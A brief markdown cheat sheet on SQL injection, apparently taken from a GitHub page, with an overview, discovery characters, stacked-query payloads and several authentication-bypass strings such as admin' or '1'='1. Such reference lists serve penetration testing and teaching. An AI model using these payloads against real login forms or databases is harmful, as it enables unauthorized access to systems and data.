 # Sql Injection

## Overview

SQL Injection58 is a common web vulnerability found in dynamic sites that is caused by unsanitized user input, which is then passed on to a database.  This user input can then be manipulated to “break out” of the original query made by the developers, to include more malicious actions.

## Discovery

Good payload to for discovery is :

    '
    --

## Simple Payloads

    1'; SHOW DATABASES;
    1'; SHOW DATABASES;'

## Auth Bypass Payloads

    admin' or '1'='1
    admin')-- -
    admin') OR 1=1 -- '